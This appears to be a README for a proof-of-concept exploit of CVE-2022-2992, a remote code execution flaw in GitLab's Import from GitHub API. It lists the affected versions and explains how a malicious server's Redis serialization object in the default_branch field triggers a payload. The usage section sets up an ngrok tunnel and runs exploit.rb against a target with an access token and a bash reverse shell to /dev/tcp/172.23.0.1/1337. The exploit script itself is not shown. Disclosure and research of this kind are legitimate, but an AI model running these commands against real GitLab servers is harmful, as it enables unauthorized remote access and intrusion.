

# CVE-2022-2992: Remote Command Execution via Github import

## Information
**Description:** This allows an authenticated user to achieve remote code execution via the Import from GitHub API endpoint.  
**Versions Affected:** all versions from 11.10 prior to 15.1.6, 15.2 to 15.2.4, 15.3 to 15.3.2  
**Version Fixed:** 15.3.2  
**Researcher:** [vakzz](https://twitter.com/wcbowling)  
**Write-up Link:** Coming Soon  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2022-2992  

## Proof-of-Concept Exploit
### Description
An authenticated user can import a repository from Github into Gitlab. One can try to import from an attacker's controller server which replies with a Redis' serialization protocol object in the nested `default_branch` making the Gitlab to cache this object on redis and the redis to deserialize it and trigger execute the payload.

### Usage/Exploitation
One will need a [personal access token](https://docs.gitlab.com/ee/user/profile/personal_access_tokens.html#create-a-personal-access-token)

```bash
$ bundle install # install dependencies
$ ngrok http 127.0.0.1:4567  # start ngrok tunnel
$ export NGROK_URL=https://68b9-83-173-213-121.eu.ngrok.io # use the url from ngrok
$ ruby exploit.rb http://target.gitlab.com w4dg6wVj7j7xlJgpGLEYdwFe 'bash -c "sh -i >& /dev/tcp/172.23.0.1/1337 0>&1"' # that is a example, use your own payload
```
### Example

